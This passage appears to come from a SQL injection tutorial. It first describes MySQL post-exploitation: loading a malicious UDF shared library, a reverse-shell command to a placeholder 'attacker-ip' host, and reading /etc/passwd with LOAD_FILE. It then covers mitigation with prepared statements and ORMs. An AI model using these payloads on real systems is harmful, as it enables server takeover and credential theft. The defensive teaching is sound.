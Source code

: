 🚀 Steps to Load a Malicious UDF
1️⃣ Upload a compiled malicious .so file into /usr/lib/mysql/plugin/.
2️⃣ Execute commands via:
```text
CREATE FUNCTION my_exec RETURNS STRING SONAME 'malicious.so';
SELECT my_exec('whoami');
```
### 🔥 Step 3: Escalate Privileges to Full Server Control
If we have RCE, we can:

Dump all credentials
Create a reverse shell
```text
SELECT sys_exec('bash -i >& /dev/tcp/attacker-ip/4444 0>&1');
```
Exfiltrate sensitive files
```text
SELECT LOAD_FILE('/etc/passwd');
```

## MITIGATION OF SQL INJECTION

### 1️⃣ Use Parameterized Queries (Prepared Statements)
✅ Solution: Never concatenate user input into SQL queries. Use prepared statements instead.

🔹 Example (PHP - Secure Code Using PDO)
```text
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$user_input]);
$result = $stmt->fetch();
```
🔹 Example (Python - Secure Code Using MySQL Connector)
```text
cursor.execute("SELECT * FROM users WHERE username = %s", (user_input,))
```
🔹 Example (Java - Secure Code Using JDBC PreparedStatement)
```text
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE username = ?");
stmt.setString(1, userInput);
ResultSet rs = stmt.executeQuery();
```
✅ Why? Prepared statements prevent SQL code injection by treating user input as data, not code.

### 2️⃣ Use ORM (Object-Relational Mapping)
✅ Solution: Use ORM frameworks like SQLAlchemy, Hibernate, or Django ORM to avoid raw SQL queries.

🔹 Example (Python - SQLAlchemy ORM Query)
```text
user = session.query(User).filter_by(username=user_input).first()
```
🔹 Example (Django ORM Query - Secure)
```text
User.objects.filter(username=user_input)
```
✅ Why? ORMs automatically escape user input and prevent injection attacks.
